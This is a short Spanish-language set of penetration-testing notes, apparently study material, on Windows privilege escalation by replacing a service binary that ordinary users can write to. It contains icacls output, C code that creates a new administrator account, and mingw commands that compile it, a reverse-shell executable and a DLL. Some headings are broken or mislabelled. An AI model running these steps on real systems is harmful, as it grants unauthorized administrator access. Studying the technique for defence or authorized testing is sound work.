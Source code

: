 ### La utilidad icacls para ver permisos

| Máscara | Permisos                  |
|---------|---------------------------|
| F       | Acceso completo           |
| M       | Acceso de modificación    |
| RX      | Acceso de lectura y ejecución |
| R       | Acceso de solo lectura    |
| W       | Acceso de solo escritura  |

```powershell
PS C:\Users\dave> icacls "C:\xampp\mysql\bin\mysqld.exe"
C:\xampp\mysql\bin\mysqld.exe NT AUTHORITY\SYSTEM:(F)
                              BUILTIN\Administrators:(F)
                              BUILTIN\Users:(F)

Successfully processed 1 files; Failed processing 0 files
``` 

- Lo que podemos hacer es cambiar el path de la binary a un archivo que queramos ejecutar, por ejemplo nc.exe o un archivo exe que ejecute una reverse shell.

```C

#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user USER PASSWORD /add");
  i = system ("net localgroup administrators USER /add");
  
  return 0;
}
```

#### Compilando el binario
```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
``` 


#### Compilando el binario para 32 bits
```bash
-----

```bash
x86_64-w64-mingw32-gcc rev.c -o rev.exe -lws2_32
```

#### Compilando el binario para 32 bits y DLL
```bash
----

```bash
i686-w64-mingw32-gcc -m32 -shared -o gsm_codec.dll 45312.c -luser32
```
